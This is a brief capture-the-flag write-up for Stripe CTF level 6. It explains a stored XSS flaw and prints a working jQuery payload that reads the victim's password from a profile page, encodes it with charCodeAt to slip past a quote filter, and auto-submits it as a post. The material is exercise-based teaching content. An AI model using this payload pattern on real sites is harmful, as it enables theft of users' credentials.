 LEVEL 06
========

XSS vulnerability, only ' & " are not allowed, add < script >.

    $.get('https://level06-2.stripe-ctf.com/user-gdnipyajcv/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Escape with JavaScript String.charCodeAt()
[http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)
